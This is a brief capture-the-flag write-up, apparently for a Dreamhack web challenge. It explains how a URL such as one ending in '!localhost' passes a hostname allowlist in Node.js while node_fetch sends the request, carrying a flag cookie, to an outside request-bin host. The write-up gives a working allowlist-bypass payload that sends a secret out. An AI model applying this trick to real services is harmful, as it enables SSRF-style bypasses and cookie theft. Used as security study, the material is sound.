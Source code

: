 # solution

This challenge is very exciting for me. You can easily know what to do, but need some knowledges to achive the flag.

```
try {
    const urlObject = new URL(url);
    host = urlObject.hostname;

    if (host !== "localhost" && !host.endsWith("localhost")) return res.send("rejected");
  } catch (error) {
    return res.send("Invalid Url");
  }

  try {
    let result = await node_fetch(url, {
      method: "GET",
      headers: { "Cookie": `FLAG=${FLAG}` },
    });
    const data = await result.text();
    res.send(data);
  } catch {
    return res.send("Request Failed");
  }
});
```

This part of source code should be focused. Idea is bypass **if (host !== "localhost" && !host.endsWith("localhost"))**. After searching and find some hints i see this site. **https://toss.tech/article/nodejs-security-contribution** you can translate in your language to read it. I can summarize what is the key for this challenge.
![alt text](image.png)![alt text](image-1.png)![alt text](image-2.png)<br>

So you use URL(url) funtion when i put some url like this **https://xptwgbj.request.dreamhack.games!localhost**. Host is xptwgbj.request.dreamhack.games!localhost. But for node_fetch host will become xptwgbj.request.dreamhack.games and **!localhost** become a path. So we can bypass the if condition above but still accessible for node_fetch (path really not effect the host, so dreamhack's server still visit https://xptwgbj.request.dreamhack.games and give us a cookie flag). Btw i use dreamhack tool for this challenge, just type dreamhack tool onl google and go to **Request Bin**
![alt text](image-4.png)<br>

![alt text](image-3.png)<br>
